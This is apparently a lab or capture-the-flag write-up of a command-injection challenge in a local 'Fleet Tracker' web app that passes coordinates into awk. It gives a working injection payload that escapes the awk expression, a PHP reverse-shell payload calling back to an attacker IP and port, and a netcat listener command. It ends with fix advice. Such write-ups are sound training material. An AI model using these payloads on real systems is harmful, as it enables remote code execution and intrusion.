








# Command Injection 0x03 [Challenge]

## What is this challenge?
Fleet Tracker — a vehicle redirect application
that calculates distance between coordinates
using awk. The Position Y field is vulnerable
to command injection allowing full RCE.

## Target
http://localhost/labs/c0x03.php

## Vulnerability
The application uses awk to calculate distance:
awk 'BEGIN {print sqrt(((X1-X2)^2) + ((Y1-Y2)^2))}'
User input is passed into this command without
sanitization — allowing injection via Position Y.

## Attack

### Step 1 — Identify the lab
Opened Fleet Tracker — displays a list of
vehicles with positions and destinations.

### Step 2 — Test normal input
Entered ASH, Position X=50, Position Y=50
Result: awk calculated distance = 158.114

### Step 3 — Test with negative values
Entered TEST, 123, 789
Result: awk calculated distance = 798.53
This confirmed awk is doing the math.

### Step 4 — Identify injection point
Noticed awk command structure:
awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}'
The Position Y value is closed and we can
break out of the awk expression.

### Step 5 — Inject whoami command
Used payload to escape awk and run commands:
Position Y: 789)^2)}';whoami;#
Result: Output showed www-data — injection 
confirmed!

### Step 6 — Craft reverse shell payload
Position Y payload:
789)^2)}';php -r '$sock=fsockopen
("192.168.253.128",4444);exec("/bin/sh 
-i <&3 >&3 2>&3");';#

### Step 7 — Start netcat listener
On Kali terminal:
nc -nlvp 4444

### Step 8 — Trigger the shell
Submitted the form with the reverse shell
payload in Position Y.

### Step 9 — Got shell access!
Netcat output:
connect to [192.168.253.128] from (UNKNOWN) 
[172.18.0.3] 50970
$ whoami
www-data
$ hostname
4ea4185fc55b

Successfully got reverse shell as www-data
on the Docker container!

## Payloads Used
```bash
# Whoami injection
Position Y: 789)^2)}';whoami;#

# Reverse shell
Position Y: 789)^2)}';php -r '$sock=fsockopen("192.168.253.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#

# Listener
nc -nlvp 4444
```

## Screenshots










## Impact
- Full Remote Code Execution as www-data
- Interactive reverse shell on the server
- Read any file accessible to www-data
- Lateral movement to other systems possible
- Complete application compromise

## Fix
- Never pass user input to shell commands
- Validate Position X and Y as numeric only
- Use proper math libraries instead of awk shell
- Implement strict input validation (regex)
- Apply least privilege to web server user
- Block outbound connections from container

